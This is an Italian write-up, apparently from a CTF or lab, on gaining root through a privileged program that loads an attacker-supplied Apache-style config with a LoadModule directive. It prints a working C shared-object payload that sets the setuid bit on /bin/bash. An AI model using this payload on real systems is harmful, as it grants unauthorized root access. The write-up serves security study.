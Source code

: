 ![unsafe](./img/unsafe.png)

Questa funziona permette di specificare nel file di configurazione passato al programma solo le direttive **IncludeOptional** e **LoadModule**.

L'idea e' quella di sfruttare i privilegi di **root** per caricare un file di configurazione malevole. 

Si utilizza la direttiva **LoadModule** che permette di caricare moduli **.so (shared object)**.

### Crafting the payload & Exploitation
---

Il payload viene definito in **evil.c**.

```c
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
        setuid(0);
        system("chmod +s /bin/bash");
}
```
